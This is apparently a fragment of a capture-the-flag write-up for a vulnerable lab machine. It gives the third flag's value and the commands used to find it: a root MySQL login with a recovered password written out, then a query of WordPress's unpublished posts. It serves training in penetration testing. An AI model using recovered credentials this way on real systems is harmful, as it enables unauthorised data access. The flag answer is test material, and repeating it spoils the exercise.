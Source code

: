 ![](images-day1-and-2\flag2.png)

  - `flag3`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Earlier we found the root credentials which allowed us to use our root access to the mysql database to locate flag3.txt.
      - We ran the following commands in order to find flag3.txt:
            mysql -u root -pR@v3nSecurity
            show databases;
            use wordpress;
            select * from wp_posts WHERE post_status != 'publish';

![](images-day1-and-2\sql-database-creds.png)
![](images-day1-and-2\login-to-mysql.png)
